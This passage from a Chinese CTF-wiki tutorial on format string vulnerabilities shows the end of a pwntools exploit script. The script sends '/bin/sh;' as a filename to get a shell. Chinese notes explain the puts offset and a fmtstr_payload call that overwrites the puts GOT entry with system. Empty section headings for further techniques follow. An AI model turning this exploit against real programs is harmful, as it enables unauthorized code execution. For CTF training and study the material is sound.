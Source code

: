 ```python
sh.recvuntil('ftp>')
sh.sendline('get')
sh.recvuntil('enter the file name you want to get:')
##gdb.attach(sh)
sh.sendline('/bin/sh;')

## system('/bin/sh')
show_dir()
sh.interactive()
```

- 我在获取 puts 函数地址时使用的偏移是 8，这是因为我希望我输出的前 4 个字节就是 puts 函数的地址。其实格式化字符串的首地址的偏移是 7。
- 这里我利用了 pwntools 中的 fmtstr_payload 函数，比较方便获取我们希望得到的结果，有兴趣的可以查看官方文档尝试。比如这里 fmtstr_payload(7, {puts_got: system_addr}) 的意思就是，我的格式化字符串的偏移是 7，我希望在 puts_got 地址处写入 system_addr 地址。默认情况下是按照字节来写的。

### hijack retaddr[¶](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/fmtstr/fmtstr_example-zh/#hijack-retaddr)

### 堆上的格式化字符串漏洞 [¶](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/fmtstr/fmtstr_example-zh/#_22)

### 格式化字符串盲打 [¶](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/fmtstr/fmtstr_example-zh/#_31)

### hijack DTORS/hooks/__atexit structures/function pointer